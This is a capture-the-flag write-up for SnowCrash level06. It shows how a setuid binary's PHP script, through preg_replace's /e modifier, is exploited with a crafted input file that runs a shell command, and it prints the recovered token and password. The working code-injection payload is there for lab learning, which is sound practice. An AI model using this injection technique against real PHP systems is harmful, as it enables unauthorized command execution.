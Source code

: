 # level06

Using `ls` we can find some files.

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Let's gather some informations of thoses files.

```bash
level06@SnowCrash:~$ readelf -p .rodata level06

String dump of section '.rodata':
  [     8]  .so^J
  [     d]  /usr/bin/php
  [    1a]  /home/user/level06/level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
level06@SnowCrash:~$ 
```

Ok, interesting, we can see that level06 will execute the php code.

After some googling on preg_replace exploits, I [found this](http://www.madirish.net/402).

Let's try to exploit e modifier.

`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`

We need to reconstruct the regex so he can evaluate the `$a` from file. Using `{}` to [functionize](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) code.

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Perfect, let's head to level07.

```bash
level06@SnowCrash:~$ su level07
Password: wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$ 
```
